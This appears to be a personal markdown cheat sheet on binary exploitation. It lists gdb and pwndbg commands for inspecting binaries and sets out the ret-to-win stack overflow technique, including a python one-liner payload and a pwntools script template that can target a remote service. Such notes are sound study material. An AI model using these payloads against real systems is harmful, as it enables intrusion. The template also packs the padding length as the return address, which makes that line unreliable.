 ```yaml
---
layout: blank
pagetitle: Binary Exploitation
---
```


**Investigating Binaries**
- `strings {binary}` to see strings in the binary
- See what file type it is: `file {binary}`
- Check the security: `checksec {binary}`
- Within gdb:
    - Function information: `info functions`
    - Register information: `info registers`
    - Variable information: `info variables`
    - See 64 number of bytes after a register or memory address: `x/64x ${register}` or `x/64x {address}`
        - Useful if we set a breakpoint on a memory address with `b *{address}`

**Ret-to-win**
- We want to return to a different location in the binary by overwriting the stack
- We can find the offset necessary with cyclic
    - `pwndbg {binary}`
    - `cyclic 100`
    - `run`
        - then pass the cyclic payload
        - pwndbg will show what's being returned to, which will be something like `0x4012ac <main+132> ret <0x6167616161666161>`
    - Pass that offset back into cyclic with `cyclic -l {offset}` to find the offset before the payload
- Can then `disas {desired function}` to find the address of the function start and return
- Can then use python to craft a payload, in the form of `offset + {desired_function_return} + {desired_function_start}`
    - To get the bytes, use pwntools' `p64` like so: `p64(0x401186)`, which returns it in the necessary format
    - `python3 -c "import sys, struct; sys.stdout.buffer.write(b'A' * {} + b'\x27\x12\x40\x00\x00\x00\x00\x00' + b'\x86\x11\x40\x00\x00\x00\x00\x00')" | ./binary`
- Can also use pwntools for automatic exploitation:

```
from pwn import *

# choose between local binary or remote service
# p = remote("{IP}", {port})
p = process("./{binary}")

payload = b'A' * {ret_offset}
payload += p64({ret_offset})
payload += p64({start_offset})
p.sendline(payload)
p.interactive()
```